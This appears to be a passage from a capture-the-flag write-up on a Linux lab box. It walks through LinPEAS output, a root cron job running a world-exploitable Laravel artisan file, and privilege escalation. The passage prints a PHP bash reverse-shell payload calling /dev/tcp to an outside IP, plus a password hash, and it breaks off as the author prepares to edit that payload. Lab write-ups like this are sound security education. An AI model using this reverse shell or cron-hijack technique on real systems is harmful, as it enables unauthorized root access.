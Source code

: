 The user `admin`'s password is `4f5fffa7b2340178a716e3832451e058`

Then, let's run `LinPEAS`.

```bash
╔══════════╣ Cron jobs
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#scheduledcron-jobs                                                      
/usr/bin/crontab                                                             
incrontab Not Found
-rw-r--r-- 1 root root     797 Apr  9  2017 /etc/crontab 

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1



╔══════════╣ Users with console
noulis:x:1000:1000:Noulis Panoulis,,,:/home/noulis:/bin/bash                 
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
```

There is a scheduled job run by `root` on `crontab` : 
`php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1`

It's running `/var/www/laravel/artisan` via PHP.
Let's check what the file is.

```bash
www-data@cronos:/var/www/laravel$ cd /var/www/laravel
cd /var/www/laravel



www-data@cronos:/var/www/laravel$ ls -al artisan
ls -al artisan
-rwxr-xr-x 1 www-data www-data 72 Feb 24 09:03 artisan



www-data@cronos:/var/www/laravel$ cat artisan
cat artisan
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.12/1145 0>&1'");
```

Surprisingly, the file is editable by `www-data`, and the original content is already a reverse shell payload.
Let's just simply modify the IP address to my kali machine:
